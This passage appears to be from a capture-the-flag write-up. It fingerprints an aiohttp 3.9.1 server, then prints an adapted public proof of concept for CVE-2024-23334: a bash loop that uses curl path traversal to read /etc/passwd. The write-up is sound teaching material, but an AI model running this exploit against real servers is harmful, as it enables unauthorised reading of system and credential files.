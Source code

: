 ```

        String       : Python/3.9 aiohttp/3.9.1 (from server string)

[ JQuery ]
        A fast, concise, JavaScript that simplifies how to traverse 
        HTML documents, handle events, perform animations, and add 
        AJAX. 

        Version      : 3.6.0
        Website     : http://jquery.com/

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 


HTTP Headers:
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        Content-Length: 5971
        Date: Sun, 29 Dec 2024 21:57:30 GMT
        Server: Python/3.9 aiohttp/3.9.1
        Connection: close

``` 

The scan discovers that the webserver uses **aiohttp 3.9.1**. Now we need to see if we can find any known vulnerabilities and a POC to go with it. There are many sites online talking about a path traversal vulnerability, but I chose to look at the one [on GitHub](https://github.com/z3rObyte/CVE-2024-23334-PoC):

![[Pasted image 20241229170841.png]]

Fortunately there is also a poc attached, which we will use. I made a few changes to match my target, like changing the port number and the directory in the **payload** variable (/static/ was the original directory, it didn't exist on the site) and then executed the script:
```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
